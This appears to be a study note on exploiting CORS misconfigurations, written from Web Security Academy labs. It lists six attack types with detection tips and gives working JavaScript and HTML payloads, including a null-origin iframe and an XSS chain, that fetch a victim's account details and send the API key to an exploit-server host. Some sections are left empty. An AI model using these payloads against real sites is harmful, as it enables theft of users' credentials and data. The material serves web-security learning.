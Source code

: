 # CORS

## Types:

1. Server-generated ACAO header from client-specified Origin header
2. Errors parsing Origin headers
3. Whitelisted null origin value
4. Exploiting XSS via CORS trust relationships
5. Breaking TLS with poorly configured CORS
6. Intranets and CORS without credentials 
---

## How to find each type:

1. Server-generated ACAO header from client-specified Origin header
- Attempt to use a random origin in the `Origin` header.
- See if the origin is reflected in the  `Access-Allow-Control-Origin` header.
2. Errors parsing Origin headers
- See if you can use subdomains or domains that end with the whitelisted domain.
3. Whitelisted null origin value
- Put `null` in the origin header and see if it is reflected.
4. Exploiting XSS via CORS trust relationships
- Check to see if subdomains are allowed in the `Access-Allow-Control-Origin` header.
- If they are, see if there is XSS on these domains.
5. Breaking TLS with poorly configured CORS
-
6. Intranets and CORS without credentials 
-
---

## How to exploit each type:

1. Server-generated ACAO header from client-specified Origin header
```js
  function getadmin() {
    var res = JSON.parse(this.response)
    fetch("https://exploit-0ac9009003aa0ee18189ec3601fa001a.exploit-server.net/accountdetails?" + res.apikey);
}

const request = new XMLHttpRequest();
request.addEventListener("load", getadmin);
request.open("GET", "https://0a13001d03130e4c81a6ed270097004e.web-security-academy.net/accountdetails", true);
request.withCredentials = true;
request.send();
```
2. Errors parsing Origin headers
- If `normal-website.com` is ok then try `hackersnormal-website.com`.
3. Whitelisted null origin value
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a13001d03130e4c81a6ed270097004e.web-security-academy.net/accountdetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
var res = JSON.parse(this.response)
location = 'https://exploit-0ac9009003aa0ee18189ec3601fa001a.exploit-server.net/accountdetails?' + res.apikey;
};
</script>"></iframe>
```
4. Exploiting XSS via CORS trust relationships
- Use XSS with the first CORS exploit:
  ```html
  <script>
    location="http://subdomain/?param=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a0f002004d241048007da1d006100c9.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {var res = JSON.parse(this.response); location='https://exploit-0a9c0056042b411d809bd96701ef00ae.exploit-server.net/accountDetails?key='%2bres.apikey;};</script>"
  </script>
  ```
5. Breaking TLS with poorly configured CORS
- This attack involves the following steps:
  - The victim user makes any plain HTTP request.
  - The attacker injects a redirection to: `http://trusted-subdomain.vulnerable-website.com`
  - The victim's browser follows the redirect.
  - The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to: `https://vulnerable-website.com`
  - The victim's browser makes the CORS request, including the origin: `http://trusted-subdomain.vulnerable-website.com`
  - The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
  - The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.
6. Intranets and CORS without credentials 
-
---

## Other important notes:
- Look for the `Access-Allow-Control-Origin` header.
